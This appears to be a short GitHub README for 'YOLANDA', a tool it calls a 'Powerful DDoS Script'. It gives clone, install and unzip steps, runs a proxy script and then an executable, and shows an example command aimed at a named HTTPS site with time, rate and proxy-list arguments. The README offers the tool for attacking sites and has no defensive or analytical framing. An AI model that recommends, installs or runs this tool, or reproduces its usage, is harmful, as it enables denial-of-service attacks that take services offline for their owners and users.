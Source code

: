 # YOLANDA
Powerful DDoS Script

# Install
```
git clone https://github.com/MsYor/YOLANDA; cd YOLANDA

pip3 install httpx

unzip YOLANDA.zip

python3 http_proxy.py

chmod +x YOLANDA

./YOLANDA
```
# Example:
./YOLANDA https://tls.mrrage.xyz 60 1 proxy.txt



